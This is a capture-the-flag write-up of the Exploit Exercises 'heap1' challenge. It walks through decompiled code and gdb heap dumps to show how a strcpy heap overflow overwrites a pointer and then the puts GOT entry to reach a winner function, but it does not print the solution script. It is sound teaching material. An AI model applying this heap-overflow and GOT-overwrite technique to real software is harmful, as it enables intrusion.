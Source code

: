 # Exploit exercises - heap1 challenge

## Vulnerability

Let's immediately dive into the disassembly:

```
void main(undefined4 param_1,int param_2)

{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  
  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  *(void **)(puVar1 + 1) = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  *(void **)(puVar3 + 1) = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  puts("and that\'s a wrap folks!");
  return;
}
```

The binary takes our command line arguments (two this time) and copies it into two different memory allocations which reside on the heap. Since `strcpy` is used for both of those, we can easily overflow from the first chunk into the second making this challenge similar to heap0.

But how can we exactly abuse this to call the `winner` function? By calling the `strcpy` function, we are performing a write to a memory address which is specified as a first parameter and the overflow into the second chunk gives us the ability to specify any memory address we want. With this in mind, we can use the first `strcpy` call to overflow into the second chunk and specify our memory address. Afterwards, we use the second `strcpy` call to write to that same memory address.

## Overflowing and writing

This time, we don't get the helpful output specifying the chunk memory address. We will need to do this by hand via gdb:

```
Breakpoint 1 at 0x804855a: file heap1/heap1.c, line 34.
(gdb) run AAAAAAAA BBBBBBBB
Starting program: /heap1 AAAAAAAA BBBBBBBB

Breakpoint 1, main (argc=3, argv=0xffffd124) at heap1/heap1.c:34
34	heap1/heap1.c: No such file or directory.
(gdb) i r eax
eax            0x804a190           134521232
(gdb) x/60wx 0x804a190 - 0x40
0x804a150:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a160:	0x00000001	0x0804a170	0x00000000	0x00000011
0x804a170:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a180:	0x00000002	0x0804a190	0x00000000	0x00000011
0x804a190:	0x42424242	0x42424242	0x00000000	0x00021e69
0x804a1a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a200:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a210:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a220:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a230:	0x00000000	0x00000000	0x00000000	0x00000000
```

Again, breaking it down a little:

```
0x804a150:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a160:	0x00000001	0x0804a170	0x00000000	0x00000011
0x804a170:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a180:	0x00000002	0x0804a190	0x00000000	0x00000011
0x804a190:	0x42424242	0x42424242	0x00000000	0x00021e69
```

We see that there are multiple chunks on the heap here. The disassembly shows 4 malloc's being executed, therefore we observe:
- first malloc chunk `puVar1` starts at `0x804a158`
- second malloc chunk `pvVar2` starts at `0x804a168`
- third malloc chunk `puVar3` starts at `0x804a178`
- fourth malloc chunk `pvVar2` (second) starts at `0x804a188`

If we think about the content stored in these chunks we can assume that first and second chunk represent a struct:

```
0x804a158:  0x00000000	0x00000011  (first malloc chunk header)
0x804a160:	0x00000001              (integer, something like id)	
0x804a164:  0x0804a170	            (pointer to string1)
0x804a168:  0x00000000	0x00000011  (second malloc chunk header)
0x804a170:	0x41414141	0x41414141  (our string1)
```

Same goes for third and fourth chunk:

```
0x804a178:  0x00000000	0x00000011  (third malloc chunk header)
0x804a180:	0x00000002	            (integer, something like id)
0x804a184:  0x0804a190	            (pointer to string2)
0x804a188:  0x00000000	0x00000011  (fourth malloc chunk header)
0x804a190:	0x42424242	0x42424242  (our string2)
```

The `strcpy` is passed with a pointer to our string (string1 or string2, depends whether it is the first or second call). What we want to do here is:
- write from string1 (`0x804a170`) all the way down to pointer to string2 (`0x804a184`) - meaning that we will have to overwrite `0x804a184 - 0x804a170 = 20 bytes (8 bytes string1 + 8 bytes malloc chunk header + 4 bytes integer)`.
- in continuation write the memory address where we want to write our string2, but what address is that?

Since in the disassembly the last call that is made after strcpy is:

```
puts("and that\'s a wrap folks!");
```

We can simply overwrite the `puts` GOT entry located at `0x08049774`.

To make this complete, we specify the `winner` function address as a second command argument which will make the second `strcpy` write the `winner` function address to `puts` GOT entry, practically executing the winner function after that second `strcpy` by calling the `winner` function instead of `puts`. Solution for this challenge is `solve_exploit_exercises_heap1.py`

